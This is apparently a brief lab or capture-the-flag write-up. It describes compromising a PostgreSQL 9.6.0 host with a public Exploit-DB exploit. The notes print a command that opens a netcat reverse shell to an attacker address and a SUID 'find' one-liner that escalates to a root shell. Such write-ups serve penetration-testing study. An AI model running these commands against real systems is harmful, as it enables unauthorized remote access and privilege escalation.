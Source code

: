 
- PostgreSQL DB 9.6.0  was vulnerable to https://www.exploit-db.com/exploits/50847 which was expoited as below.
```bash
python 50847.py -i 192.168.175.47 -p 5437 -c '/bin/nc -e /bin/sh 192.168.45.156 80'
```

- Ran linpeas and got the PE.

```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```
